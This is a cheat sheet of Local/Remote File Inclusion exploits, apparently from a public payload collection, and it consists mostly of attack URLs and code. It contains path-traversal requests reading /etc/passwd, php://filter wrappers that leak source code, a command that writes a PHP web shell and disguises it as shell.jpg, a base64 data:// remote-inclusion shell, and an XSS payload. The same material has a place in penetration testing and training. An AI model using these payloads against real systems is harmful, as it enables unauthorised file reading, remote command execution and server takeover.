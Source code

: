 # Local/Remote File Inclusion
The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application.

## Exploit

Basic LFI (null byte, double encoding and other tricks)
```
http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd
```

LFI Wrapper rot13 and base64 - php://filter case insensitive
```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php=pHp://FilTer/convert.base64-encode/resource=index.php
```

LFI Wrapper zip
```python
os.system("echo \"</pre><?php system($_GET['cmd']); ?></pre>\" > payload.php; zip payload.zip payload.php; mv payload.zip shell.jpg; rm payload.php")
				
http://example.com/index.php?page=zip://shell.jpg%23payload.php
```


RFI Wrapper with "<?php system($_GET['cmd']);echo 'Shell done !'; ?>" payload
```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```


XSS via RFI/LFI with "<<svg<>svg onload=alert(1)>" payload
<svg onload=alert(1)>
```
http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

## Thanks to
* https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion